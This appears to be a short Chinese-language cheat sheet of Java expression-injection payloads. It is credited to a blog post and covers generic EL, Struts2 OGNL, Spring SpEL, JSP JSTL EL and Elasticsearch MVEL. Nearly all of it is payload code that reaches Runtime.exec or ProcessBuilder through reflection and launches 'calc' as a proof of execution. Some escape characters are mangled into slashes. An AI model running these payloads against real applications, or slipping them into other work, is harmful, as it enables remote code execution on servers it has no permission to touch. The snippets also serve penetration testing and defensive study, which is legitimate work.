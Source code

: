 # 代码注入

> From https://y4er.com/post/java-expression-injection/

## 通用payload

```java
${pageContext}
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
${header}
${applicationScope}
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

## Struts2 OGNL

```java
ActionContext AC = ActionContext.getContext();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

## Spring SPEL

```java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

## JSP JSTL_EL

```java
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

## Elasticsearch MVEL
```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
Boolean result = (Boolean) MVEL.eval(expression, vars);
```